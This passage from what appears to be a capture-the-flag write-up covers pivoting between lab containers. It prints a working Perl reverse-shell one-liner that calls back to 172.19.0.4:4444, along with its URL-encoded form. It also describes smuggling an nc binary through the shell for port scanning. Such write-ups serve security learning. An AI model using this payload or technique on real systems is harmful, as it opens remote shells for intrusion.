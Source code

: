 
This is how the Perl reverse shell looks like before URL encoding:

```
perl -e 'use Socket;$i="172.19.0.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

Encode it to prevent complications.

```
perl%20-e%20%27use%20Socket%3B%24i%3D%22172.19.0.4%22%3B%24p%3D4444%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fbash%20-i%22%29%3B%7D%3B%27
```

We have shell into `www`!


{% include image.html image_alt="93b832f1.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/93b832f1.png" %}


### Next Container: `backup`

We'll soon realize that `www` is another multi-homed container.


{% include image.html image_alt="b9c0d8cb.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/b9c0d8cb.png" %}


It's getting familiar now. Another container probably lives at `172.20.0.2`. Suffice to say, we need to transfer our beloved `nc` to `www` to show some port scanning love to the newly discovered container.

The transfer this time round is more troublesome because the reverse shell truncates the `base64`-encoded string of `nc`. Fret not, we can `gzip` before encoding. Like this, we can save some space and reduce the number of times we copy-and-paste the string over in a piece-meal fashion.


{% include image.html image_alt="29c59a41.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/29c59a41.png" %}


It's not pretty but hey, it works!


{% include image.html image_alt="4a2e4309.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/4a2e4309.png" %}


What do we have here?


{% include image.html image_alt="1fc6c192.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/1fc6c192.png" %}


And there's a `rysnc` client in `www`!

